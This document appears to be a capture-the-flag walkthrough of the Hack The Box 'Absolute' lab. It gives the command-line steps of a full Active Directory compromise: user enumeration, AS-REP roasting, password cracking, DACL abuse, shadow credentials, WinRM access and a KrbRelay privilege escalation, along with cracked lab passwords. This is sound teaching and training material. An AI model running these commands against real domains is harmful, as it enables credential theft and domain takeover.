


Using autorecon to enumerate:
```
# Nmap 7.94SVN scan initiated Tue Feb 20 17:52:22 2024 as: nmap -vv --reason -Pn -T4 -sV -sC --version-all -A --osscan-guess -p- -oN /home/kali/Downloads/absolute/results/10.10.11.181/scans/_full_tcp_nmap.txt -oX /home/kali/Downloads/absolute/results/10.10.11.181/scans/xml/_full_tcp_nmap.xml 10.10.11.181
Increasing send delay for 10.10.11.181 from 0 to 5 due to 91 out of 227 dropped probes since last increase.
Warning: 10.10.11.181 giving up on port because retransmission cap hit (6).
Nmap scan report for 10.10.11.181
Host is up, received user-set (0.046s latency).
Scanned at 2024-02-20 17:52:22 IST for 625s
Not shown: 65500 closed tcp ports (reset)
PORT      STATE    SERVICE       REASON                              VERSION
80/tcp    open     http          syn-ack ttl 127                     Microsoft IIS httpd 10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-title: Absolute
|_http-server-header: Microsoft-IIS/10.0
88/tcp    open     kerberos-sec  syn-ack ttl 127                     Microsoft Windows Kerberos (server time: 2024-02-20 19:31:13Z)
135/tcp   open     msrpc         syn-ack ttl 127                     Microsoft Windows RPC
389/tcp   open     ldap          syn-ack ttl 127                     Microsoft Windows Active Directory LDAP (Domain: absolute.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=dc.absolute.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:dc.absolute.htb
| Issuer: commonName=absolute-DC-CA/domainComponent=absolute
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2023-07-17T21:11:52
| Not valid after:  2024-07-16T21:11:52
| MD5:   8355:ce67:4d7e:e8ab:e5d1:ec4c:8482:550b
| SHA-1: c9cb:a13e:be47:d989:40d5:92e2:b9ef:cfff:9ef4:53e5
|_ssl-date: 2024-02-20T19:32:46+00:00; +7h00m00s from scanner time.
445/tcp   open     microsoft-ds? syn-ack ttl 127
464/tcp   open     kpasswd5?     syn-ack ttl 127
593/tcp   open     ncacn_http    syn-ack ttl 127                     Microsoft Windows RPC over HTTP 1.0
636/tcp   open     ssl/ldap      syn-ack ttl 127                     Microsoft Windows Active Directory LDAP (Domain: absolute.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=dc.absolute.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:dc.absolute.htb
| Issuer: commonName=absolute-DC-CA/domainComponent=absolute
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2023-07-17T21:11:52
| Not valid after:  2024-07-16T21:11:52
| MD5:   8355:ce67:4d7e:e8ab:e5d1:ec4c:8482:550b
| SHA-1: 
|_ssl-date: 2024-02-20T19:32:47+00:00; +7h00m00s from scanner time.
689/tcp   filtered nmap          no-response
3269/tcp  open     ssl/ldap      syn-ack ttl 127                     Microsoft Windows Active Directory LDAP (Domain: absolute.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2024-02-20T19:32:46+00:00; +7h00m00s from scanner time.
| ssl-cert: Subject: commonName=dc.absolute.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:dc.absolute.htb
| Issuer: commonName=absolute-DC-CA/domainComponent=absolute
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2023-07-17T21:11:52
| Not valid after:  2024-07-16T21:11:52
| MD5:   8355:ce67:4d7e:e8ab:e5d1:ec4c:8482:550b
| SHA-1: c9cb:a13e:be47:d989:40d5:92e2:b9ef:cfff:9ef4:53e5

Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=260 (Good luck!)
IP ID Sequence Generation: Busy server or unknown class
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 64848/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 16687/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 58099/udp): CLEAN (Failed to receive data)
|   Check 4 (port 41463/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
|_clock-skew: mean: 6h59m59s, deviation: 0s, median: 6h59m59s
| smb2-time: 
|   date: 2024-02-20T19:32:40
|_  start_date: N/A

TRACEROUTE (using port 7847/tcp)
HOP RTT      ADDRESS
1   43.93 ms 10.10.14.1
2   44.01 ms 10.10.11.181

Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Feb 20 18:02:47 2024 -- 1 IP address (1 host up) scanned in 625.40 seconds

```

adding the hostname to /etc/hosts for *DNS Resolution*:

A webpage is running on port 80:

Now downloading all the images in the repository:
`wget -r 10.10.11.181`
Using exiftool for metadata:
`exiftool hero_1.jpg` 
The authors are listed in the metadata so to get all the authors:
`find . -type f -exec exiftool {} \; | grep Author`

Now to list only authors:
`find . -type f -exec exiftool {} \; | grep Author|awk -F: '{print $2}'| sed 's/^ //g' > username.txt`
Now using anarchy https://github.com/urbanadventurer/username-anarchy
Now fixing the usernames according to the example format:

`ruby username-anarchy/username-anarchy -i username.txt -f flast,f.last,first.last,last.first `

# Exploitation
## ASREPRoast
Now to brute force using kerbrute (or impacket GetNPUser) https://github.com/ropnop/kerbrute
`./kerbrute_linux_amd64 userenum --dc dc.absolute.htb -d absolute.htb username.txt -o valid-users.txt`

`cat valid-users.txt |grep USERNAME|awk '{print $7}' > tmp`
`mv tmp valid-users.txt`
Now to change time to domain controller time:
`sudo ntpdate dc.absolute.htb`

Use latest kerbrute for hashes. git clone and `go build`
Now we get a hash running it again:

Now use the hash to crack on hashcat but its the wrong type of `kerberos 5 etype 23` by auto.
So we gotta --downgrade with kerbrute:
`./kerb userenum --dc dc.absolute.htb -d absolute.htb username.txt --downgrade`
THIS IS etype 23 (can tell from the first line)
Password: d.klay@absolute.htb: `Darkmoonsky248girl`
Validate with *crackmapexec*
`cme smb 10.10.11.181 -u d.klay -p Darkmoonsky248girl`

First get ticket with impacket:
`getTGT.py absolute.htb/d.klay`
Now using bloodhound:
`KRB5CCNAME=d.klay.ccache ./bloodhound.py -k -dc dc.absolute.htb -ns 10.10.11.181 -c All -d absolute.htb -u d.klay@absolute.htb`
but use bloodhound from https://github.com/jazzpizazz/BloodHound.py-Kerberos for kerberos support.

Marking everyone under winrm_user as high value as we can get a shell.

Marking everyone under domain users as high value too.

Using kerberos login to enumerate smb:
`cme smb 10.10.11.181 -u d.klay -p Darkmoonsky248girl -k --shares`

We have password for svc_smb in bloodhound:

To get it manually:
`cat 20240302180235_users.json | jq '.data[].Properties | .samaccountname + ":" + .description' -r`
Now checking smb shares:

To do the same enumeration with ldapsearch instead of bloodhound. First initialise the kerberos client in /etc/krb5.conf
then use `kinit` to initialize

`ldapsearch -H ldap://dc.absolute.htb -s base -Y GSSAPI -b "cn=users,dc=absolute,dc=htb" "user" "description"`
Now get TGT using:
`getTGT.py absolute.htb/svc_smb`
Then use smbclient for kerberos login:
`KRB5CCNAME=svc_smb.ccache ./smbclient.py -k absolute.htb/svc_smb@dc.absolute.htb -target-ip 10.10.11.181`

We find test.exe in the smb
Now trying it in windows vm we need to port forward with
```
sudo iptables -A FORWARD -i tun0 -o eth0 -m state --state RELATED,ESTABLISHED -j ACCEPT
                                                    sudo iptables -A FORWARD -i eth0 -o tun0  -j ACCEPT                                    
sudo iptables -t nat -A POSTROUTING -s 192.168.161.0/24 -o tun0 -j MASQUERADE   
```
Then in windows:
`route add 10.10.10.0/23 mask 255.255.254.0 192.168.58.230`
 Then add dns 
Then running test.exe and using wireshark to sniff:

Now follow TCP Stream:

We get the creds for a user
m.lovegod AbsoluteLDAP2022!
Marking as owned in bloodhound we can see the "transitive object control" for m.lovegods

Now to add ourselves to NETWORK AUDIT
Get dacledit.py from the repo https://github.com/ShutdownRepo/impacket.git
`python3 -m venv .venv `
`source .venv/bin/activate`
`pip install .`

Now get the TGT for m.lovegod
```
getTGT.py absolute.htb/m.lovegod
```
Then 
```
KRB5CCNAME=/home/kali/Downloads/absolute/m.lovegod.ccache ./dacledit.py -k -no-pass -dc-ip 10.10.11.181 -principal m.lovegod -target "Network Audit" -action write -rights FullControl absolute.htb/m.lovegod 
```

Then do `kinit m.lovegod` to add creds.
Then edit /etc/krb5.conf

`net rpc group addmem "Network Audit" -k -U m.lovegod -S dc.absolute.htb m.lovegod`
To add the member

Now checking `net rpc group members "Network Audit" -k -U m.lovegod -S dc.absolute.htb`

Bloodhound suggests to use pywhisker
But using certipy instead for Shadow credential attack
`KRB5CCNAME=m.lovegod.ccache certipy shadow auto -k -no-pass -u absolute.htb/m.lovegod@dc.absolute.htb -dc-ip 10.10.11.181 -target dc.absolute.htb -account winrm_user`

Then to get shell in winrm:
`KRB5CCNAME=winrm_user.ccache evil-winrm -r absolute.htb -i dc.absolute.htb`

Now uploading [KrbRelay.exe](https://github.com/cube0x0/KrbRelay) to the machine we try the command:
`.\KrbRelay.exe -spn ldap/dc.absolute.htb -clsid 354ff91b-5e49-4bdc-a8e6-1cb6c6877182 -add-groupmember "Domain Admins" winrm_user`
For a krbrelay attack but we get an error

---
**NOTE**: BEFORE USING RUNAS CHECK THAT THE WHOLE COMMAND IS IN '' AND THE ARGUMENT INSIDE IS IN "". TRY USING TRUSTEDINSTALLER CLSID IF ERROR.

---

It is a credential issue so using [RunasCs.exe](https://github.com/antonioCoco/RunasCs) Now `.\RunasCs.exe -l -h` for help:

But still the same error  with `.\RunasCs.exe m.lovegod -l 9 -d absolute.htb AbsoluteLDAP2022! "KrbRelay2.exe -spn ldap/dc.absolute.htb -clsid 354ff91b-5e49-4bdc-a8e6-1cb6c6877182 -add-groupmember 'Domain Admins' winrm_user"`

Changing the  clsid:
`.\RunasCs.exe m.lovegod -l 9 -d absolute.htb AbsoluteLDAP2022! "KrbRelay2.exe -spn ldap/dc.absolute.htb -clsid 0289a7c5-91bf-4547-81ae-fec91a89dec5 # RPC_C_IMP_LEVEL_IMPERSONATE  -Port 10 -add-groupmember 'Domain Admins' winrm_user"`
We get a different error:

The clsid is a problem so getting it from [Juicy Potato](https://github.com/ohpe/juicy-potato/tree/master/CLSID/Windows_Server_2016_Standard) from trustedInstaller as it always runs as system.
But the same godamn error. 
`.\RunasCs.exe m.lovegod -l 9 -d absolute.htb AbsoluteLDAP2022! "KrbRelay2.exe -spn ldap/dc.absolute.htb -clsid 8F5DF053-3013-4dd8-B5F4-88214E81C0CF -Port 10 -add-groupmember Administrators winrm_user"`
Removing the quotes solved the issue - _ -
Checking now with `net group administrators`

We have been added to the administrators group 